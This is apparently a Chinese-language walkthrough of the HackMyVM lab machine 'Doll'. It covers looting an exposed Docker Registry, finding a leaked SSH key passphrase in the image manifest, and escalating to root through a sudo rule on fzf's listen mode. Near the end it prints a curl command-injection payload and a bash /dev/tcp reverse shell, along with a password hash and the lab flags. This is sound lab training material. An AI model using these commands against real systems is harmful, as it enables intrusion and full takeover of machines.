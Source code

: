 # Doll

2025.03.12 https://hackmyvm.eu/machines/machine.php?vm=Doll

[video](https://www.bilibili.com/video/BV1pgQJYbE8Y/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
1007/tcp open  unknown
```

1007 端口显示为 Docker Registry (API: 2.0) ， 目录扫描出 http://192.168.5.39:1007/v2

http://192.168.5.39:1007/v2/_catalog

```json
{
    "repositories": ["dolly"]
}
```

http://192.168.5.39:1007/v2/dolly/tags/list

```json
{
    "name": "dolly",
    "tags": ["latest"]
}
```

http://192.168.5.39:1007/v2/dolly/manifests/latest

```json
{
    "schemaVersion": 1,
    "name": "dolly",
    "tag": "latest",
    "architecture": "amd64",
    "fsLayers": [
        {
            "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
        },
        {
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },
        {
            "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
        },
        {
            "blobSum": "sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09"
        }
    ],
    "history": [
        {
            "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"container\":\"10ddd4608cdfd81cd95111ecfa37499635f430b614fa326a6526eef17a215f06\",\"container_config\":{\"Hostname\":\"10ddd4608cdf\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":true,\"AttachStdout\":true,\"AttachStderr\":true,\"Tty\":true,\"OpenStdin\":true,\"StdinOnce\":true,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"doll\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"created\":\"2023-04-25T08:58:11.460540528Z\",\"docker_version\":\"23.0.4\",\"id\":\"89cefe32583c18fc5d6e6a5ffc138147094daac30a593800fe5b6615f2d34fd6\",\"os\":\"linux\",\"parent\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\"}"
        },
        {
            "v1Compatibility": "{\"id\":\"1430f49318669ee82715886522a2f56cd3727cbb7cb93a4a753512e2ca964a15\",\"parent\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"comment\":\"buildkit.dockerfile.v0\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"ARG passwd=devilcollectsit\"]},\"throwaway\":true}"
        },
        {
            "v1Compatibility": "{\"id\":\"638e8754ced32813bcceecce2d2447a00c23f68c21ff2d7d125e40f1e65f1a89\",\"parent\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.45578926Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) CMD [\\\"/bin/sh\\\"]\"]},\"throwaway\":true}"
        },
        {
            "v1Compatibility": "{\"id\":\"cf9a548b5a7df66eda1f76a6249fa47037665ebdcef5a98e7552149a0afb7e77\",\"created\":\"2023-03-29T18:19:24.348438709Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:9a4f77dfaba7fd2aa78186e4ef0e7486ad55101cefc1fabbc1b385601bb38920 in / \"]}}"
        }
    ],
    "signatures": [
        {
            "header": {
                "jwk": {
                    "crv": "P-256",
                    "kid": "2Z7Q:7NQ3:Z7YC:AV7H:2ABM:YQSQ:CC6X:XKC7:A7VI:ICWO:GOJW:KTEM",
                    "kty": "EC",
                    "x": "AWecc5ox53LzWanJD3_RuDVBiN4Jo79hSwXsOc6JbaM",
                    "y": "9R6TbMkjhphceMB-8t3dh6cztVX75kpZC7Uaj5gJGg8"
                },
                "alg": "ES256"
            },
            "signature": "DgoqSopZ7nHVd7VMxQeQaMgfCHjJljbRWiPCT32j4Sw4hHtVRvBeSiVqxO6zU2kJnDK-Bg4IE2IZJnNlLw0RTQ",
            "protected": "eyJmb3JtYXRMZW5ndGgiOjI4MjksImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyNS0wMy0xMlQwNTo1MzowMloifQ"
        }
    ]
}
```

复制上面每一个 blobSum 到这个 url 后面 , 访问下面 3 个 url 后得到 tar.gz 下载包(手动修改文件后缀名)，解压查看可能存在的敏感信息：

```
(1) http://192.168.5.39:1007/v2/dolly/blobs/sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017
(2) http://192.168.5.39:1007/v2/dolly/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
(3) http://192.168.5.39:1007/v2/dolly/blobs/sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09
```

也可以使用下面这个脚本进行自动枚举和下载 https://github.com/NotSoSecure/docker_fetch/blob/master/docker_image_fetch.py

其中在第一个下载链接对应的 gz 包中，发现了 /etc/passwd 文件，发现用户名 bela 并且发现 /etc/shadow 文件：

```
bela:$6$azVVFjn.mkvh.lhA$yAXPBGOZDXRdDBmn3obtzhUzxwfDD7u3YIcixohpKzTGpJS0Oeu7UVoguhmwg4DHNM8K5z7Tn93BBaDadM/A5.:19472:0:99999:7:::
```

没爆破出来，但是又在这个 gz 包中发现了用户的私钥连接文件 /home/bela/.ssh/id_rsa 私钥有密码，尝试爆破，没结果。

这里没有其他的信息了，在仔细看一下上面返回的 manifests ，这里看到可能是密码 ARG passwd=devilcollectsit 在密钥处输入这个字符串 devilcollectsit，登陆成功。

先拿到了 user flag：

```
bela@doll:~$ cat user.txt
juHDnnGMYNIkVgfnMV
```

sudo -l 显示 `(ALL) NOPASSWD: /usr/bin/fzf --listen\=1337` man 查看帮助 fzf - a command-line fuzzy finder 是一个内容模糊查找提示软件。

尝试执行: `sudo -u root /usr/bin/fzf --listen=1337` 在 127.0.0.1 上会创建一个在 web 上可以执行搜索的服务，在目标机器上使用 curl 发送 execute 命令(fzf --bind "enter:execute(less {})")：

```
curl http://127.0.0.1:1337/ -d 'execute(echo 1 > /tmp/test.txt)'
```

这时发现/tmp 目录中以 root 用户生成了 test.txt 文件，这时就可以执行反弹 shell，获得 root 权限：

```
curl http://127.0.0.1:1337/ -d 'execute(/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1)'
```

拿到了最终的 root flag:

```
root@doll:~# cat root.txt
xwHTSMZljFuJERHmMV
```
